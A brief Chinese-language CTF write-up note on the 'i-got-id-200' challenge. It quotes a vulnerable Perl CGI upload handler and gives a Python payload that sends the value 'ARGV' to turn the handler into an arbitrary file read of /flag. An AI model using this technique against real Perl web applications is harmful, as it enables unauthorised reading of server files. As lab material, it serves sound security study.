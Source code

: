- 国外CTF比较喜欢出Perl的题目
- 攻防世界-i-got-id-200
- ```perl
  if ($cgi->upload('file')) { # 如果存在file文件
    my $file = $cgi->param('file'); # 那么取出file参数（POST优先）
    while (<$file>) { # 这行相当于$_=<$file> 读取$file[0]
        print "$_";
        print "<br />";
    }
  }
  ```
  
  payload:
  
  ```python
  r = requests.post(url + "?/flag", data = {
    "file": "ARGV"
  }, files = {
    "file": "asdf"
  })
  
  print(r.text)
  ```
  
  原理：
  
  perl 会取出`file[0]`，发现是 ARGV，于是就将`<$file>`变成了`<ARGV>`，也就是输入参数`/flag`，于是就可以进行任意文件读取
-